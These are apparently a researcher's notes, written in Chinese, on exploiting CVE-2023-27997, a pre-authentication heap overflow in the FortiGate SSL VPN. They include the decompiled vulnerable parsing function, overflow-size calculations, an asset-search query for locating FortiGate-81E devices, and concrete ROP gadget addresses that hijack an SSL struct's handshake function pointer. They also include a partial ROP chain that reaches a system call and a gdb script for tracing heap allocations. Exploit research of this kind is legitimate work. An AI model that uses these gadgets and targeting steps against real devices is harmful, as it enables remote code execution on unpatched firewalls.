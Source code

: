 # 漏洞原理

```c
int parse_enc_data(char *in)
{
    int in_len = strlen(in);
    int given_len;
    int xored_given_len;

    if(in_len & 1)
    {
        return 1;
    }

    compute_key_zero(salt, in, 8, md5); // [1] Computes key from salt, seed

    out = alloc_block(*pool, (in_len >> 1) + 1); // [2] Allocate a buffer
    unhex(out, in); // [2] Hexa-decode in to out

    if (out[0]) // first byte of seed must be 0x00
    {
        ap_log_rerror((__int64)a1, 8LL, (__int64)"invalid encoding method %d\n", needs_null);
        return 1;
    }

    // [3] Decrypt given length
    xored_given_len = *((_WORD *)out + 2);
    given_len = (unsigned __int8)(xored_given_len ^ md5[0]);
    BYTE1(given_len) = md5[1] ^ HIBYTE(xored_given_len);

    if ( in_len - 5 <= given_len ) // [4] Verify bounds
    {
        ap_log_rerror(a1, 8LL, "invalid enc data length: %d\n", given_len);
        return 1LL;
    }

    // [5] Decrypt: xor every input from byte 6 (4 bytes for seed, 2 bytes for length)
    p = &out[6];
    if (given_len)
    {
        int i = 0LL;
        while (i < given_len)
        {
            if ((i + 2) % 16 == 0) // Current state is exhausted: compute new
            {
                MD5_Init(md5_ctx);
                MD5_Update(md5_ctx, md5, 16LL);
                MD5_Final(md5, md5_ctx);
            }
            p[i] ^= md5[(i + 2) % 16];
            ++i;
        }
    }
    out[6 + given_len] = 0; // [6] Append null byte

    add_kvp_to_hashmap(a1->params, out); // [7] Process plaintext

    // Allocated buffers get freed at the end of the HTTP exchange
    return 0;
}
```

```
8个字节    in_len: 16    out_buf_size:9     (in_len - 5):11     given_len max:10        溢出1字节
32个字节   in_len: 64    out_buf_size:33    (in_len - 5):59     given_len max:58				 溢出25字节
64个字节   in_len: 128   out_buf_size:65    (in_len - 5):123    given_len max:122  		 溢出57字节
```

```python
#!/bin/python3

in_len = 32

while in_len <= 1024:
    out_buf_len = (in_len>>1)+1
    in_len_5 = in_len - 5
    give_len_max = in_len_5 -1
    print(f"in_len:{in_len} out_buf_len:{out_buf_len} in_len - 5:{in_len_5}  give_len max:{give_len_max} overflow:{give_len_max - out_buf_len}")
    in_len += 2
```

# 资产扫描

fortigate product:"Fortinet FortiGate-81E"

# gadget

```c
struct ssl_st {
    /*
     * protocol version (one of SSL2_VERSION, SSL3_VERSION, TLS1_VERSION,
     * DTLS1_VERSION)
     */
    int version;
    /* SSLv3 */
    const SSL_METHOD *method;
    /*
     * There are 2 BIO's even though they are normally both the same.  This
     * is so data can be read and written to different handlers
     */
    /* used by SSL_read */
    BIO *rbio;
    /* used by SSL_write */
    BIO *wbio;
    /* used during session-id reuse to concatenate messages */
    BIO *bbio;
    /*
     * This holds a variable that indicates what we were doing when a 0 or -1
     * is returned.  This is needed for non-blocking IO so we know what
     * request needs re-doing when in SSL_accept or SSL_connect
     */
    int rwstate;                                /--20--/
    int (*handshake_func) (SSL *);              /--24--/
```

通过逆向/home/sysirq/Work/Fortinet/FortiGate_6_4_6_81E/rootfs/unpack/lib/libssl.so.1.1 中的SSL_do_handshake函数

```
.text:0001E39E                 LDR             R3, [R4,#0x18]
.text:0001E3A0                 MOV             R0, R4
.text:0001E3A2                 BLX             R3
```

发现 R4,R0 均指向struct ssl_st的开头




我们需要通过r0 ， 将栈移动到我们的控制的gadget中去，

```
ssl->handshake_func（offset:0x18）  设置为 (0x011f96fe : mov r7, r0 ; mov.w r0, #0x400 ; ldr r2, [r4] ; mov sb, r1 ; mov r8, r3 ; blx r2)
ssl->version				(offset:0x00)  设置为 (0x00921326 : mov sp, r7 ; pop.w {r4, r5, r6, r7, r8, sb, sl, fp, lr} ; add sp, #4 ; bx lr)
ssl->new_session		(offset:0x20)  设置为 (0x005712ee : sub sp, #0x1a8 ; pop {r4, pc})
```

这样，当执行ssl->handshake_func 会执行 ssl->version 进而执行 ssl->new_session。最后跳转到我们控制的栈上去



构造的ropchain的最后一部分

```
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
.....................
0x001cb480 : pop {pc}
0x0003649c : pop {r3, pc}
0x001cb480 : FUNC_FORK_SYSTEM
0x00037caa : add r0, sp, #0x24 ; blx r3
......................
```


# 用于跟踪分配的gdb脚本

```
set height 0
set pagination off
set disassembly-flavor intel
handle SIGPIPE nostop
# break after allocating the buffer grab the address
b *0x0173164e
commands
    silent
    set $heap_obj = $rax
    printf "buffer: %p\n", $heap_obj
    c
end
# print address of SSL objects when malloc'd
b *CRYPTO_zalloc+37 if  ( $r12 == 0x1db8 )
commands
    silent
    printf "CRYPTO_zalloc(0x%x) = %p\n", $r12, $rax
    c
end

# break in malloc helper function (used by vulnerable function)
b *0x018021d6 if (($r13>0x1c00) && ($r13<=0x2000))
commands
    silent
    set $size = $r13
    set $addr = $rax
    printf "malloc(0x%x) = %p\n", $size, $addr
    c
end

# break in je_malloc in case something calls je_malloc directly
b *je_malloc if (($rdi>0x1c00) && ($rdi <=0x2000))
commands
    silent
    printf "je_malloc(%x)\n", $rdi
    c
end
```

# 资料

XORtigate: Pre-authentication Remote Code Execution on Fortigate VPN (CVE-2023-27997)

https://blog.lexfo.fr/xortigate-cve-2023-27997.html

xortigate-cve-2023-27997

https://github.com/lexfo/xortigate-cve-2023-27997?tab=readme-ov-file

Alert: 330,000 FortiGate Firewalls Still Unpatched to CVE-2023-27997 RCE Flaw

https://thehackernews.com/2023/07/alert-330000-fortigate-firewalls-still.html

Fortinet Fortigate RCE (CVE-2023-27997) #18163

https://github.com/rapid7/metasploit-framework/issues/18163

CVE-2023-27997 Is Exploitable, and 69% of FortiGate Firewalls Are Vulnerable

https://bishopfox.com/blog/cve-2023-27997-exploitable-fortigate-vulnerable

Breaking Fortinet Firmware Encryption

https://bishopfox.com/blog/breaking-fortinet-firmware-encryption

CVE-2023-27997 Vulnerability Scanner for FortiGate Firewalls

https://bishopfox.com/blog/cve-2023-27997-vulnerability-scanner-fortigate

Building an Exploit for FortiGate Vulnerability CVE-2023-27997

https://bishopfox.com/blog/building-exploit-fortigate-vulnerability-cve-2023-27997

ssl_st Struct Reference

https://openxdas.sourceforge.net/doxygen/html/structssl__st.html